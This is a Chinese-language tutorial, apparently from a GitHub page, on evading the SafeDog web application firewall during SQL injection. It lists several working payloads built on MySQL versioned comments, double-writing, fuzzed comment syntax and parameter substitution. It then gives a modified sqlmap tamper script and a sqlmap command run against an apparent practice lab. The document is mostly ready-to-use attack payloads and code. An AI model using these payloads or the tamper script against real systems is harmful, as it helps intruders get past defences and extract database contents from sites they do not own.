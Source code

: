 

# 安全狗绕过

1、使用注释非注释/*!Num*/Num这个数字是五位数字,如果当前数据库版本大于这串数字，此时/*!后面的内容不再被当做注释，否则任然被当做注释Payload /*!99999hello*/  union /*!99999hello*/  select 1,2,user/*!99999hello*/ ()-- +

![img](image/image45.png) 

成功绕过

![img](image/image46.png) 

2、使用小于mysql版本的五位数字 放到非注释里面Payload  /*!44532union*/ /*!44532select */ 1,2,user/*!99999hello*/ ()-- +

成功绕过

![img](image/image47.png) 

3、双写绕过Payload /*!44532union /*!44532select */ 1,2,user/*!99999hello*/ ()-- +

![img](image/image48.png) 

4、/*%!a*/ 通过fuzz尝试出来的 Payload  union/*%!a*/select 1,2,user/*%!a*/() --+

![img](image/image49.png) 

终极杀招 5、变量替换Payload a=/*&id=-1' union select 1,2,user() --+&b=*/

![img](image/image50.png) 

\4. 编写sqlmap绕狗脚本(在我给的脚本基础上进行修改)

过狗脚本修改

这里采用的是将versionedmorekeywords.py脚本进行更改

![img](image/image51.png) 

   >>> tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')  '1/*!44444UNION*//*!44444ALL*//*!44444SELECT*//*!44444NULL*/,/*!44444NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!44444AS*//*!44444CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#'  """   def process(match):    word = match.group('word')    if word.upper() in kb.keywords:      return match.group().replace(word, "/*!44444%s*/" % word)    else:      return match.group()   retVal = payload   if payload:    retVal = re.sub(r"(?<=\W)(?P<word>[A-Za-z_]+)(?=[^\w(]|\Z)", lambda match: process(match), retVal)    retVal = retVal.replace(" /*!44444", "/*!44444").replace("*/ ", "*/")   return retVal

 

python sqlmap.py -u "http://www.sqli.com/Less-1/?id=1" --tamper=safedog.py --random-agent -v 3 --flush-session

 

![img](image/image52.png) 

![img](image/image53.png) 

![img](image/image54.png)